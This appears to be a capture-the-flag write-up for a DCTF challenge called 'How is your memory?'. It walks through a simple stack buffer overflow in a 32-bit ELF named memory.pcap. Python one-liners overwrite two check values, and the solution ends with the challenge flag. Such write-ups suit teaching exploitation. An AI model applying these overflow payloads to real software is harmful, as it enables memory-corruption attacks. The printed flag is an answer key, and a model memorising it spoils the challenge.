

## How is your memory?

### Description:
Well here is a small application to test your memory!

### Author: 
Lucian Nitescu

### Stats: 
4 points / 169 solvers 

### Solution:  

The challenge started with memory.pcap witch is actually an 32-bit ELF executable. 

```
mehuser:~$ file memory.pcap 
memory.pcap: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=ffa14db28a5fdf190ee6b0b56af2c7b2cab9cdd5, not stripped
```

Well this also can be open in wireshark and it will look as such:



The point is that the challenge was all about buffer overflow exploits.

```
mehuser:~$ chmod +x ./memory.pcap 
mehuser:~$ ./memory.pcap 


Oh well you do remember your extension!

[You have sent this msg]: 

[Instead of 0xdeadbeef the target recived]: 0x4030201

```

So for the first step we have to enter 0xdeadbeef but we got 0x4030201. A normal test would be:

```
mehuser:~$ ./memory.pcap 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Oh well you do remember your extension!

[You have sent this msg]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[Instead of 0xdeadbeef the target recived]: 0x41414141

Hey hey do not spam! Go home you are drunk!
```

Now we can observe that we got 0x41414141 (the hex of the string AAAA) instead 0x4030201!

```
mehuser:~$ ./memory.pcap 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbbbb

Oh well you do remember your extension!

[You have sent this msg]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbbbb
[Instead of 0xdeadbeef the target recived]: 0x62626262

Hey hey do not spam! Go home you are drunk!
```

At this point we have to write 0xdeadbeef, but normally we can not write "unreadable" chars so we will use python:

```
mehuser:~$ python -c "import struct; check=struct.pack('<I', 0xdeadbeef); print 'A' * 40 + check"| ./memory.pcap

Oh well you do remember your extension!

[You have sent this msg]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[Instead of 0xdeadbeef the target recived]: 0xdeadbeef
Meh...you did it... but I am not sure you know what you did there... Again, is your memory good enough?
[You have sent this msg]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���
[Instead of 0x41414242 the target recived]: 0xffffff
```

Well we now have to bypass the second check. Simple task for python!

```
mehuser:~$ python -c "import struct; check=struct.pack('<I', 0xdeadbeef); print 'A' * 40 + check + \"\\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBAA\" " | ./memory.pcap 

Oh well you do remember your extension!

[You have sent this msg]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[Instead of 0xdeadbeef the target recived]: 0xdeadbeef
Meh...you did it... but I am not sure you know what you did there... Again, is your memory good enough?
[You have sent this msg]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBAA
[Instead of 0x41414242 the target recived]: 0x41414242
Wow I am impressed! Now for the last time:
DCTF{SHA256(ads3wqdsx<>ads3wqdsxprintfDCTF256mehgeneration)}

```

The flag is: DCTF{33886bb08d43834495866481148c60bbf9b58421d1dd4849865e49fe444366c6}